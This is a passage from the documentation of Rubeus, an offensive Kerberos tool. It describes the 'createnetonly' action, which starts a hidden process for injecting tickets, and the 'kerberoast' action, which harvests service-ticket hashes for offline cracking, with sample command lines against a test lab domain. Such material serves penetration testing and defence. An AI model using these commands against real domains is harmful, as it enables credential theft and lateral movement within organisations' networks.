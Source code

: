 
## createnetonly

The **createnetonly** action will use the CreateProcessWithLogonW() API to create a new hidden (unless /show is specified) process with a SECURITY_LOGON_TYPE of 9 (NewCredentials), the equivalent of runas /netonly. The process ID and LUID (logon session ID) are returned. This process can then be used to apply specific Kerberos tickets to with the ptt /luid:X parameter, assuming elevation. This prevents the erasure of existing TGTs for the current logon session.

    C:\Rubeus>Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe"

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 9060
    [+] LUID            : 6290874


## kerberoast

The **kerberoast** action replaces the [SharpRoast](https://github.com/GhostPack/SharpRoast) project's functionality. Like SharpRoast, this action uses the [KerberosRequestorSecurityToken.GetRequest Method()](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) method that was contributed to PowerView by [@machosec](https://twitter.com/machosec) in order to request the proper service ticket. Unlike SharpRoast, this action now performs proper ASN.1 parsing of the result structures.

With no other arguments, all user accounts with SPNs set in the current domain are kerberoasted. The /spn:X argument roasts just the specified SPN, the /user:X argument roasts just the specified user, and the /ou:X argument roasts just users in the specific OU.

The /outfile:FILE argument outputs roasted hashes to the specified file, one per line.

Also, if you wanted to use alternate domain credentials for kerberoasting, that can be specified with /creduserDOMAIN.FQDN\USER /credpassword:PASSWORD.

    c:\Rubeus>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
